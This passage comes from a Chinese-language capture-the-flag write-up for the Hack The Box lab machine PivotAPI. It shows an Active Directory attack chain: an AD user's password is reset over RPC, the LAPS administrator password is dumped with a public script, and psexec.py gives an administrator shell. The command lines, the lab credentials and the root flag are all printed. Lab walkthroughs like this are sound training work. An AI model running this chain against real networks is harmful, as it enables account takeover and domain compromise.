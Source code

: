 ```bash

-------------------------------------------------------------------------------
cybervaca
Se ha completado el comando correctamente.
```

如果可以拿到`cybervaca`或者`lothbrok`用户，那么就可以读取LAPS。

bloodhound显示`GIBDEON@LICORDEBELLOTA.HTB`属于`OPERS. DE CUENTAS`组，此组对于`LOTHBROK`用户有全部权限

到这里路径很清晰了，通过rcp修改掉`LOTHBROK`用户的密码，然后调用`LOTHBROK`用户的权限读取LAPS就可以了

#### DUMP LAPS密码

可以直接用开源的python脚本去查看LAPS的值，因为目前通过mssqlproxy代理转发非常不稳定，用powershell读取LAPS属性的方式非常不方便，直接用pyhton脚本来读取更符合当前的场景

[dump LAPS](https://github.com/n00py/LAPSDumper)

```bash
setuserinfo2 lothbrok 23 'hackerone0o!@'

└─$ python laps.py -u lothbrok -p 'hackerone0o!@' -d LicorDeBellota.htb -l 10.10.10.240

LAPS Dumper - Running at 08-06-2025 00:12:17
PIVOTAPI jDIiWNVly8u1P1KZ4Hb2
```

#### psexec.py

此时虽然已经拿到了`administrador`用户的密码，但是ssh和winrm都不对这个用户开放，这种情况下可以使用`impacket`工具集的`psexec.py`脚本

```bash
python3 psexec.py LicorDeBellota.htb/administrador:jDIiWNVly8u1P1KZ4Hb2@10.10.10.240
```

`psexec.py`本身需要在smb服务中上传文件并调用，从而实现`getshell`，所以在没有smb的写权限的情况下，是不能正常利用的

#### root.txt

```bash
92c3424eef08afa489c41ae9b429e730
```












